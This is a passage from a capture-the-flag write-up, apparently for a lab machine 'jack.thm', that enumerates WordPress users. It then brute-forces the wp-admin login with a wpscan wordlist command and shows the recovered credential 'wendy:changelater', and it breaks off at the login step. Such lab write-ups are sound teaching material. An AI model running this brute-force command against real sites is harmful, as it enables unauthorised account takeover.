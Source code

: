 

As seen, we find some users, we're also dealing with `wordpress 5.3.2`, since we got users, we can try brute forcing the `wp-admin` page to get credentials, let's proceed to exploitation.


# EXPLOITATION
---

So, we already know we must brute force or that's the path we're going to take, let's save the following usernames in a file:

```
jack
wendy
danny
```


Now we can brute force:

```
wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
```

After a couple minutes of wait, we get credentials for Wendy, if you want to speed up the process, just use Wendy as the username:

![Pasted image 20250617132550.png](../../IMAGES/Pasted%20image%2020250617132550.png)


```
wendy:changelater
```


Let's login:

